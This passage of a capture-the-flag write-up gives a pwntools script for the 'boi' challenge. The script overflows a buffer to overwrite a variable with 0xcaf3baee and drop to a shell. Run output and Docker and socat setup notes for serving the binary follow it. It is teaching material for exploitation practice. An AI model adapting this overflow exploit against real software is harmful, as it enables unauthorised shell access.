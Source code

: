 With all of that, we can write an exploit for this challenge:

```python
# Import pwntools
from pwn import *

# Establish the target process
target = process('./boi')

# Make the payload
# 0x14 bytes of filler data to fill the gap between the start of our input
# and the target int
# 0x4 byte int we will overwrite target with
payload = "0"*0x14 + p32(0xcaf3baee)

# Send the payload
target.send(payload)

# Drop to an interactive shell so we can interact with our shell
target.interactive()
```

When we run it:

```bash
$    python exploit.py
[+] Starting local process './boi': pid 9075
[*] Switching to interactive mode
Are you a big boiiiii??
$ w
 23:37:29 up  3:37,  1 user,  load average: 0.81, 0.80, 0.85
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               20:00   ?xdm?  22:41   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
boi  exploit.py  input    Readme.md
```

Just like that, we popped a shell!

---

Notice the path to bash `/bin/bash`, now it is commonly found under different path `/usr/bin/bash`.

Could start docker container for this.

```bash
docker run --rm -it -u root --entrypoint=/bin/bash -p 5000:5000 -v "${PWD}:/app" -w "/app" ubuntu:22.04

# install sockat
apt update && apt install -y socat

# start network service
./socket.sh
```

## References

- [Exploiting over Sockets](https://ir0nstone.gitbook.io/notes/types/stack/exploiting-over-sockets/exploit)
